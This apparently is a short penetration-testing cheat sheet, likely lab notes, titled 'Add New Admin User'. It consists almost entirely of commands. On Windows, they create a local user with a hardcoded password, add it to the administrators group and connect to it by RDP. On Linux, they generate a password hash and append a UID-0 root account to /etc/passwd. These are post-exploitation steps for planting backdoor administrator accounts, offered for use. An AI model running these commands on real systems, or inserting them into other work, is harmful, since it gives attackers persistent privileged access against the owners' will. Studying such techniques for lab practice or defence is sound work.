 # Add New Admin User

## Windows

```text
net user pwn hacked /ADD
net localgroup administrators pwn /add
```

```bash
# https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/password-must-meet-complexity-requirements
net user pwn ThisIsOneUsersPass01 /add /y 
```

```bash
rdesktop -g 80% -u pwn -p ThisIsOneUsersPass01 10.11.1.x
```

## Linux

```bash
$ openssl passwd -1 -salt pwn pwned
$1$pwn$sX7TFgG1yRswJLX53dwzy1
```

Make sure to `echo` with single quotes.

```bash
echo 'hacker:$1$pwn$sX7TFgG1yRswJLX53dwzy1:0:0:root:/root:/bin/bash' >> /etc/passwd
```



